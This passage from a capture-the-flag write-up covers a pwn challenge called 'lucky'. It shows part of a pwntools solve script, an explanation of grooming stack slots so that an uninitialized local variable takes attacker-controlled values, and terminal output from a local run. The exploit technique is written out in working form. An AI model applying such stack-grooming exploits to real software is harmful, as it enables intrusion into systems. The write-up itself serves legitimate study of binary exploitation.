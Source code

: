 ```python

print(f'Calculated birth year: {birth_year}, hex: {hex(birth_year)}') 

io.sendlineafter('year: ', str(birth_year).encode())
io.sendlineafter('month: ', b'0')
io.sendlineafter('day: ', b'0')

# Now trigger gen_lucky_numbers again; with the seed and dword_4010 prepared,
# the uninitialized local will be read from our groomed stack values.
io.sendlineafter('> ', b'2')
io.interactive()
```

By setting `target_number_in_int` in our PoC script to an arbitrary 32-bit value and repeating it across the username buffer, we place that value into the caller stack slots that `gen_lucky_numbers` will later interpret as its uninitialized local `max_number_of_nums_to_change`. Because the username chunks are XORed together to form `seed`, we choose a birth-year that cancels the username XOR (see Stage 2), causing `*(_QWORD *)&seed == 0`. After clearing `dword_4010` in Stage 1 and forcing `seed == 0` in Stage 2, the branch that would normally initialize `max_number_of_nums_to_change` is skipped leaving the callee to read whatever attacker-controlled bytes are already on the stack.


##### Evidence of successful stack re-use
```
mcsam@0x32:~/Desktop/ctf/flagyard/pwn/lucky$ python3 solve1.py 
[+] Starting local process './lucky': pid 265446
/home/mcsam/.local/lib/python3.10/site-packages/pwnlib/tubes/tube.py:876: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
/home/mcsam/.local/lib/python3.10/site-packages/pwnlib/tubes/tube.py:866: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
Calculated birth year: 85899345920, hex: 0x1400000000
[*] Switching to interactive mode
NUM 20
Your lucky numbers are:
83
86
77
15
93
35
86
92
49
21
62
27
90
59
63
26
40
26
72
36
How many numbers do you want to change?
```
